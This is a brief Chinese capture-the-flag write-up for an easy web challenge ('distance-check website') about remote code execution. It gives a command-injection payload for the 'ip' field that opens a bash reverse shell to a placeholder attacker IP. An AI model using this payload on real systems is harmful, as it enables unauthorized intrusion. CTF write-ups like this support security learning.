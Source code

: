 ### 1.题目名称

distance-check website



### 2.题目类型

web(easy)


### 3.考察知识点

RCE


### 4.解题思路

从bp抓取的数据包猜测可能存在任意代码执行漏洞，但是直接攻击没有回显，我们使用如下payload：

ip=127.0.0.1;bash -c "bash -i >& /dev/tcp/your\_ip\_here/12345 0>&1"








